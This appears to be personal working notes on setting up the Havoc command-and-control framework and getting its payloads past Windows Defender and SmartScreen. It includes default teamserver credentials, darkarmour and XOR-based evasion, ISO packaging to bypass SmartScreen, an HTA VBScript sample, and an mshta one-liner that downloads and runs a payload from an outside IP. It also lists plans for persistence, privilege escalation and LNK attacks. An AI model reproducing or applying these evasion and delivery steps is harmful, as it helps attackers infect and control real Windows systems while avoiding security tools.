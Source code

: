 Building havoc on an ubuntu system - OG$2Up8rx#k7

```
sudo apt install build-essential
sudo add-apt-repository ppa:deadsnakes/ppa
sudo apt update
sudo apt install python3.10 python3.10-dev
```

You can put your teamserver in a VPS whie your client can connect to the teamserver which can be local.

go ver 1.18 is required or above

teamserver installed and ready to go

to run teamserver use in team server directory - `./teamserver server --profile profiles/havoc.yaotl`

the host is the host ip
port is the defualt havoc port - 40056
user would be havoc user default - Neo
password - password1234

able to get a connect back. But unable ot evade antivirus.

next things

1. custom payload
Tried using havoc with darkarmour it runs it is caught by windows defender
![](./havoc_unencrypted.png))

and then using darkarmour evasion was successfull
https://github.com/bats3c/darkarmour
![](./windows_defender_havoc.png)

then created an iso file using packMyPayload
https://github.com/mgeeky/PackMyPayload
![](./iso_smartscreen_bypass.png)

but it only executes from a drive E: privilege. more modules for privilege ecalation must be looked into.

2. how to use multiple vps's
3. eviltwin
4. dll persistance, creating a service
5. create a shellcode for all this and then integrate it with darkarmour
6. generate hta to create something similar to linkzip exploit

https://www.ired.team/offensive-security/code-execution/t1170-mshta-code-execution

```
<html>
<head>
<script language="VBScript"> 
    Sub RunProgram
        Set objShell = CreateObject("Wscript.Shell")
        objShell.Run "calc.exe"
    End Sub
RunProgram()
</script>
</head> 
<body>
    Nothing to see here..
</body>
</html>
```

this did not work 

however creating a download and execute with mshta

`mshta.exe vbscript:Close(Execute("GetObject(""script:http://10.10.6.55:8000/legit.iso"")"))`

![](./mshta_caught.png)


7. creating lnk file

tried doing it through powershell -


this detects can we put it in hta to create a shortcut?

### detection

with cloud based protection after couple of downloads the file is getting detected, lets try for in memory exection apart from xor?

![](./detection_cloud_tamper.png)

### evasion

then again xoring 7 times and creating a exes

![](./xor7_connectback.png)

![](./xor7_evasion.png)

![](./xor7_smartscreen.png)

creating lnk file.
